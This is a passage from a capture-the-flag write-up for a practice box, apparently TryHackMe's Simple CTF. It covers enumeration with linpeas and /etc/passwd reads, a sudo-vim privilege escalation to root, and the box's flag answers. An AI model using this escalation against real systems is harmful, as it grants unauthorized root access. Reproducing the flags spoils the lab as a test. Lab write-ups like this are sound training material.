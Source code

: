 ```bash
Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ pwd
/home/mitch
$ cat user.txt
**********************
```

2. Let's get a proper shell as shown below and start the enumeration in common directories and through linpeas.
	1. We find that there is another user `sunbath` on the system. (home directory)
	2. Only two users are proper user's on the box - _sunbath & root_. Someone removed the shell for mitch. Weird. That is why we ended up in `/bin/sh`. Mystery solved.
	3. Linpeas result's to examine further - [mitch's scan]
	4. mitch can run `vim` with root privileges. Possible path for elevation.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
sunbath:x:1000:1000:Vuln,,,:/home/sunbath:/bin/bash
mitch@Machine:/home$ cat /etc/passwd | grep mitch
mitch:x:1001:1001::/home/mitch:
```

## PRIVESC

1. `/usr/bin/vim` can be used to escalate to root as described here in [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo).

```bash
mitch@Machine:/home$ sudo vim -c ':!/bin/bash'

root@Machine:/home# whoami
root
root@Machine:/home# cd /root/
root@Machine:/root# cat root.txt 
***********************************
```

2. Now we have pawned the box. We can make it dance on our commands. And here I bid GoodBye.

## EXTRA TREATS

1. There is another way into the box for [initial access]() on the box other than above method. Meta it out !!

2. Ran a quick linpeas scan as `mitch` and `root`. Happy hunting --> [files here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Simple%20CTF/ssh/tmp)

3. There is some useful files that I downloaded just for you. Have a [look](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Simple%20CTF/ssh/etc).

## FLAGS

1. User Flag - `G00d j0b, keep up!`

2. Root Flag - `W3ll d0n3. You made it!`

**Stay Tuned On**\
[GitHub](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)